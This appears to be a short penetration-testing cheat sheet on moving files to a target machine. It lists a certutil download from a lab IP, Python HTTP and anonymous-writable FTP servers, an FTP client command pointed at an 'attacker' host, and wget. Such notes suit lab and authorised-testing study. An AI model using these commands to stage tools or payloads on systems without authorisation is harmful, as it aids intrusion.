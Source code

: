 #certutil #pyftpdlib #FTP #Bitsadmin #SimpleHTTPServer #wget 
1. Powershell for Windows

```powershell
certutil.exe --urlcache -f http://10.10.10.10/file.txt file.txt
```

2. Open HTTP server to share files on directory

```shell
python3 -m http.server --bind [your_ip] [port]
```

3. Browser
	- Navigate directly to file

4. FTP
	- from Linux
	`python -m pyftpdlib 21 <attacker machine>`
	`python -m pyftpdlib -p 21 --write`
```
┌──(root㉿kali)-[~/Downloads]
└─# python3 -m pyftpdlib -p 21 --write       
/usr/lib/python3/dist-packages/pyftpdlib/authorizers.py:108: RuntimeWarning: write permissions assigned to anonymous user.
  self._check_permissions(username, perm)
[I 2024-10-07 20:22:14] concurrency model: async
[I 2024-10-07 20:22:14] masquerade (NAT) address: None
[I 2024-10-07 20:22:14] passive ports: None
[I 2024-10-07 20:22:14] >>> starting FTP server on 0.0.0.0:21, pid=659525 <<<
```
	- from windows
	`ftp <attacker ip>`

5. Linux

	`wget`